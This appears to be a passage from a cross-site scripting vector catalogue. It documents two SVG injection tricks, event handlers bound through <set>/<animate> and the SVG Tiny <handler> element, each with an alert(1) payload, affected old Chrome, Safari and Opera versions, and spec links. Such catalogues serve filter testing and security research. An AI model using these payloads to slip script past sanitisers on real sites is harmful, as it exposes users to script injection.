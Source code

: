 reporter：LeverOne

### SVG event handler injection via "set" and "animate"#89test

Google Chrome and Safari support binding an event handler using the elements <set> or <animate>. The attribute value is the actually bound event while the "to" attribute value holds the payload. The problem has been fixed in recent Chrome versions.

```
<svg > <set attributeName="onmouseover" to="alert(1)"/> <animate attributeName="onunload" to="alert(1)"/> </svg> 
```

*   chrome 4.0
*   chrome 10.0

*   safari 3.4

*   safari 4.0.3

*   xss

*   svg
*   event
*   safari
*   chrome

*   [`www.w3.org/TR/SVG11/animate.html`](http://www.w3.org/TR/SVG11/animate.html)

*   [`www.w3.org/TR/SVGMobile12/animate.html`](http://www.w3.org/TR/SVGMobile12/animate.html)
*   #24
*   #28

reporter：LeverOne

### Using SVG element <handler>#94test

Specification SVG Tiny 1.2 provides an element <handler>, which is a "bridge" between SVG and XML-events. This element can contain regular JavaScript.

```
<svg > <handler  ev:event="load">alert(1)</handler> </svg> 
```

*   opera 10.0
*   opera 12.0

*   xss

*   svg
*   opera
*   XML-events

*   [`www.w3.org/TR/SVGMobile12/script.html#HandlerElement`](http://www.w3.org/TR/SVGMobile12/script.html#HandlerElement)

*   [`www.w3.org/TR/xml-events/`](http://www.w3.org/TR/xml-events/)
*   #85
*   #104
*   #127
